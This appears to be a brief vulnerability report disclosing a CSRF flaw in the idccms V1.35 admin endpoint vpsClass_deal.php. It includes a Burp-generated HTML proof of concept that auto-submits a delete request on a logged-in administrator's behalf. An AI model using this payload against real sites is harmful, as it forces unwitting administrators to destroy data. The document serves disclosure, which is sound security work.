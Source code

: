 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/vpsClass_deal.php?mudi=del&dataType=&dataTypeCN=%E4%BA%A7%E5%93%81%E6%A8%A1%E5%9D%97%E8%AE%BE%E7%BD%AE&theme=cs1&dataID=14

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/vpsClass_deal.php?mudi=del&dataType=&dataTypeCN=%E4%BA%A7%E5%93%81%E6%A8%A1%E5%9D%97%E8%AE%BE%E7%BD%AE&theme=cs1&dataID=14" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
